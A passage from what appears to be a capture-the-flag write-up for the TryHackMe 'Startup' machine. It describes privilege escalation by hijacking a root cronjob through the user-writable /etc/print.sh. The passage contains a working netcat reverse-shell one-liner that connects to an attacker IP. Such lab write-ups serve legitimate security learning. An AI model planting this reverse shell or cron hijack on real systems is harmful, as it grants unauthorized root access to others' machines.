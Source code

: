 ### Privilege Escalation

In Lennie's directory we find another directory called scripts, which contains a file called planner.sh, which lennie has read and execute privileges to:

```
lennie@startup:~/scripts$ ls -la
total 16
drwxr-xr-x 2 root   root   4096 Nov 12  2020 .
drwx------ 4 lennie lennie 4096 Nov 12  2020 ..
-rwxr-xr-x 1 root   root     77 Nov 12  2020 planner.sh
-rw-r--r-- 1 root   root      1 Nov 19 20:38 startup_list.txt
```

```bash
#!/bin/bash
echo $LIST > /home/lennie/scripts/startup_list.txt
/etc/print.sh
```

We see the script also calls another script called `/etc/print.sh`, and looking at the permissions there, we see lennie has full control:

```
lennie@startup:~/scripts$ ls -la /etc/print.sh
-rwx------ 1 lennie lennie 25 Nov 12  2020 /etc/print.sh
```

Last thing to check is to see if planner.sh is being run as a cronjob with root permissions.

Loading pspy64 to the target we find it is indeed being run as root:

![thm_strartup_cron.png](../assets/startup_assets/thm_startup_cron.png)

So, in theory, we should be able to modify `/etc/print.sh` to something malicious, and when it is executed it will be run as root.

Let's give it a shot:

First lets add a reverse shell to the end of `/etc/print.sh`, which will be executed with root permissions:

```
lennie@startup:/tmp$ cat /etc/print.sh
#!/bin/bash
echo "Done!"
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.6.72.91 9001 >/tmp/f
```

Then we simply wait for the cronjob and catch our root shell:
